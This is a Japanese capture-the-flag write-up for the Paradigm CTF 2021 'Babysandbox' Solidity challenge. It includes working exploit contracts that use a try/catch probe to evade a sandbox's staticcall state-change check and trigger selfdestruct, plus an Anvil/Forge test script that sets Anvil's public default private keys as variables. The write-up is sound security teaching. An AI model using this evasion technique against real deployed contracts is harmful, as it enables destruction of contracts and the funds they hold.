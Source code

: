 # Paradigm CTF 2021: Babysandbox

## ソース
- [問題コントラクト](challenge)
- [Exploit](BabysandboxExploit.sol)
- [Test](test_exploit.sh)

## 概要
`Babysandbox`コントラクトの`run`関数で`selfdestruct`を実行する問題。ただしステート変化の検知を回避する必要がある。

## Writeup
`assembly`ブロックの1つ目のif文の条件を満たせば、`run`関数の引数であるアドレス`code`に対してdelegatecallできる。

```solidity
if eq(caller(), address()) {
    switch delegatecall(gas(), code, 0x00, 0x00, 0x00, 0x00)
    case 0 {
        returndatacopy(0x00, 0x00, returndatasize())
        revert(0x00, returndatasize())
    }
    case 1 {
        returndatacopy(0x00, 0x00, returndatasize())
        return(0x00, returndatasize())
    }
}
```

よって、アドレス`code`のコントラクトで`selfdestruct`すれば解けそうであるが、単純に`fallback`関数で`selfdestruct`しても失敗する。
というのも、delegatecallを実行する前に`code`に対して同じcalldata (=`""`)でstaticcallが実行され、そのstaticcallが失敗すると、その時点で`run`関数はrevertされる。
つまり、staticcallで`selfdestruct`のようなステートが変化する処理を単純に実行してしまうとdelegatecallに辿り着けない。

```solidity
// run using staticcall
// if this fails, then the code is malicious because it tried to change state
if iszero(staticcall(0x4000, address(), 0, calldatasize(), 0, 0)) { revert(0x00, 0x00) }

// if we got here, the code wasn't malicious
// run without staticcall since it's safe
switch call(0x4000, address(), 0, 0, calldatasize(), 0, 0)
case 0 { returndatacopy(0x00, 0x00, returndatasize()) }
// revert(0x00, returndatasize())
case 1 {
    returndatacopy(0x00, 0x00, returndatasize())
    return(0x00, returndatasize())
}
```

### staticcallを無視したexploit
簡単のためにstaticcallでのステート変化の検知を無視した場合を考えてみる。
このときdelegatecallを実行するには、if文の条件「`caller()`と`address()`の一致」を満たす必要がある。
これを満たすにはsandbox内からcallすれば良い。

`call(0x4000, address(), 0, 0, calldatasize(), 0, 0)`の部分を考える。callの引数は、順に`gas`, `address`, `value`, `argsOffset`, `argsSize`, `retOffset`, `retSize`の7つ。
`calldatacopy`によってcalldataはメモリにコピー済みであるため、calldata（runの実行部）がそのまま渡されることになる。そしてdelegatecallが`code`に対して実行される。

そのため、staticcallを無視すれば以下のexploitで良い。
```solidity
contract BabysandboxExploit {
    fallback() external {
        selfdestruct(payable(address(0)));
    }
}
```

### staticcallを考慮したexploit
staticcallによってステートの変化が起きる`selfdestruct`は単純に実行できずrevertされる。
最初に実行されるstaticcallと次に実行されるcallをexploit側が区別する方法が必要である。
これはtry/catch文を使って実際に状態を変化させられるかどうかを試すことで判別できる。
try文の式には外部関数コールとコントラクト作成のみ指定できるから、

- 外部関数コールで別のコントラクトのステートが変化できるかどうかを試し、
- もし変化可能ならdelegatecallを実行、
- そうでないなら何もしない

というようにすれば、staticcallのステート変化検知によるrevertを回避できる。
そしてstaticcallを失敗させずにcallに辿り着き実行を継続させられる。

例えば、以下のようなコードを思いつく。
```solidity
contract StateChange {
    uint a = 0;
    function f() external {
        a++;
    }
}

contract BabysandboxExploit {
    StateChange immutable stateChange;

    constructor() {
        stateChange = new StateChange();
    }

    fallback() external {
        try stateChange.f() {
            selfdestruct(payable(address(0)));
        }
        catch {}
    }
}
```

しかし、これは`OutOfGas`になる。callの`0x4000` (`16384`) gasの制限に引っかかるためである。
これに対処するには`StateChange`の変数を無くし、`selfdestruct`にすると良い。`selfdestruct`を使うことで使えるgasが増える。関連: [EIP-2200: Structured Definitions for Net Gas Metering ](https://eips.ethereum.org/EIPS/eip-2200), [EIP-3298: Removal of refunds](https://eips.ethereum.org/EIPS/eip-3298)。
最終的なexploitは以下。

```Solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract StateChange {
    function f() external {
        selfdestruct(payable(address(0)));
    }
}

contract BabysandboxExploit {
    StateChange immutable stateChange;

    constructor() {
        stateChange = new StateChange();
    }

    fallback() external {
        try stateChange.f() {
            selfdestruct(payable(address(0)));
        } catch {}
    }
}
```

### Test

```
bash src/ParadigmCTF2021/Babysandbox/test_exploit.sh
```

**Testの解説**

Forgeのtestはtransaction-baseであるため、テストの間は`extcodesize`の結果が変わらない。
よってtest機能は使わず、Forgeのscript機能とAnvilを組み合わせることでテストを行う。まずはsetup用とplayer用の2つのアカウントを決める。今回はAnvilのデフォルトアカウント（0番目と1番目）を使う。

```sh
export RPC_ANVIL=http://127.0.0.1:8545
export FOUNDRY_ETH_RPC_URL=$RPC_ANVIL

# Anvil account 0
export PRIVATE_KEY_SETUP=ac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80
# Anvil account 1
export PRIVATE_KEY_PLAYER=59c6995e998f97a5a0044966f0945389dc9e86dae88c7a8412f4603b6b78690d
```

次にAnvilを起動する。
```sh
anvil --silent 1>/dev/null &
sleep 1
```
`sleep`は使いたくないが、これを挟んでAnvilが完全に起動するまで待たないと次に実行する`forge script`でRPCのエラーが起きる。

scriptを実行する。
```sh
forge script BabysandboxExploitTestScript --fork-url $RPC_ANVIL --broadcast --private-keys $PRIVATE_KEY_SETUP --private-keys $PRIVATE_KEY_PLAYER --gas-limit 1000000 --gas-estimate-multiplier 200 -vvvvv
```
現在、Forgeのscriptで個別のトランザクションにgasを指定する方法が存在しないため、`--gas-estimate-multiplier 200`を指定する必要がある。関連: https://github.com/foundry-rs/foundry/issues/2627 。


解けたかどうか`cast call`で確認する。
```sh
# 31337: chain id of Anvil
SETUP_ADDRESS=$(python -c 'import json; print(json.load(open("broadcast/BabysandboxExploitTest.s.sol/31337/run-latest.json"))["transactions"][0]["contractAddress"])')
# A result of EXTCODESIZE remains the same until a transaction is terminated.
SOLVED=$(cast call $SETUP_ADDRESS "isSolved()(bool)")

pkill anvil

echo "Result:" $SOLVED
```
